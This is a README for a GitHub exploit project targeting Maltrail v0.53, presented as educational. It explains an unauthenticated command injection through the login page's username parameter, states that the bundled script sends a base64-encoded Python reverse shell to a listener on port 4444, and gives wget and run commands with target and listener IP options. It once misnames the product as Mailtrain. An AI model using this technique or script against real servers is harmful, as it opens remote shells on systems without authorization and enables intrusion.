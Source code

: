 # Maltrail v0.53 RCE

> [!WARNING]  
> This is an educational project, I am not responsible for any use

# Exploit

In Mailtrain's web service the username parameter of the login page does not sanitise, which allows an attacker to inject commands without being authenticated and from a remote machine.

In a shell we can separate command with a `;` and what comes before the `;` will be executed as one command and what comes after will be executed as another command, if you inject into the `username` parameter a `;` + a `payload` the `payload` will be executed because the source code uses `subprocess.check_output` to check the value of the `username` parameter.

# What is it and how does it work?

Maltrail is a malicious traffic detection system [to learn more visit the official website](https://github.com/stamparm/maltrail)

This bash script sends a request using `curl` to the server that hosts maltrail. That request contains the data from -> `username=;PAYLOAD` which where it says `PAYLOAD` will execute a reverse shell using base64 encoded python on port 4444.

# Usage

```zsh
wget https://raw.githubusercontent.com/Rubioo02/Maltrail-v0.53-RCE/main/exploit.sh
chmod +x exploit.sh
./exploit.sh -t <TARGET_IP> -i <LISTENING_IP>
```

# BLOG
<https://rubioo02.github.io/>
